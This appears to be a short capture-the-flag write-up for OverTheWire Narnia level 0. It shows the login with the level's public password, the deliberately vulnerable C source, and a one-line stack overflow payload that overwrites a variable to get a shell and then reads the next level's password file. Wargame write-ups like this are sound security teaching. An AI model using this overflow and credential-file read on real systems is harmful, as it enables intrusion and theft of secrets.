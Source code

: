 ##Level 0:

ssh narnia0@narnia.labs.overthewire.org
pass is narnia0

cd /narnia
ls
cat narnia0.c
narnia0@melinda:/narnia$ cat narnia0.c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef)
        system("/bin/sh");
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
((echo -e "aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde"; exit;); echo 'whoami'; echo 'cat /etc/narnia_pass/narnia1' )| ./narnia0 
